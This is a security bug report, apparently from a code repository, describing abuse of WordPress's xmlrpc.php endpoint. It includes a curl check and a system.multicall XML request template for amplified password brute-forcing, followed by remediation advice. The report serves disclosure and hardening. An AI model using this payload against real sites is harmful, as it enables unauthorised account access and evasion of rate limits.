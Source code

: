 ### 🐞 Bug Report: Abuse of `xmlrpc.php` in WordPress

**Reported By:** Raghav Arora  
**LinkedIn:** [https://www.linkedin.com/in/iamraghavarora](https://www.linkedin.com/in/iamraghavarora)  
**Severity:** High  
**Date Reported:** 2025-06-16

---

### 📄 Summary

The `xmlrpc.php` endpoint in WordPress is enabled and accessible to unauthenticated users. This legacy API allows external systems to communicate with WordPress and can be exploited for **brute-force attacks**, **DDoS amplification**, and **pingback-based port scanning**.

---

### 📌 Affected Component

- File: `/xmlrpc.php`
- Default WordPress XML-RPC API

---

### 🚨 Proof of Concept (PoC)

**Step 1: Test Accessibility**

```bash
curl -I https://<target-site>/xmlrpc.php
```

**Expected Output:**

```
HTTP/1.1 200 OK
```

**Step 2: Brute-force Attack Using system.multicall**

The following POST request can attempt multiple logins with a single HTTP request:

```xml
POST /xmlrpc.php HTTP/1.1
Content-Type: text/xml

<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
  <param>
    <value>
      <array>
        <data>
          <value>
            <struct>
              <member>
                <name>methodName</name>
                <value><string>wp.getUsersBlogs</string></value>
              </member>
              <member>
                <name>params</name>
                <value>
                  <array>
                    <data>
                      <value>
                        <array>
                          <data>
                            <value><string>admin</string></value>
                            <value><string>wrongpassword</string></value>
                          </data>
                        </array>
                      </value>
                    </data>
                  </array>
                </value>
              </member>
            </struct>
          </value>
          <!-- Repeat struct with different passwords -->
        </data>
      </array>
    </value>
  </param>
</params>
</methodCall>
```

---

### 🎯 Impact

- **Brute-force amplification:** Multiple password attempts in a single request evade rate limiting.
- **DDoS attacks:** Used in XML-RPC pingback attacks to overload target servers.
- **Port scanning:** Abused via `pingback.ping` method to scan internal network ports.

---

### 🛠️ Suggested Remediation

- **Disable `xmlrpc.php`** if not actively used by third-party apps or integrations:
  - Add this to `.htaccess`:

    ```apache
    <Files xmlrpc.php>
        Order Deny,Allow
        Deny from all
    </Files>
    ```

- Use security plugins like **Wordfence** or **iThemes Security** to block or monitor XML-RPC usage.
- **Switch to REST API** for modern integrations and disable XML-RPC.

---

### 🔒 Security Best Practices

- Regularly audit endpoints that expose remote functionality.
- Disable legacy APIs unless explicitly required.
- Monitor logs for unusual XML-RPC request patterns.

---

### 🙏 Note to Security Team / Developers

Though XML-RPC was originally added for integration flexibility, its continued presence introduces substantial risk, especially on public-facing WordPress installations. Its deprecation or restriction is highly recommended unless in active use.
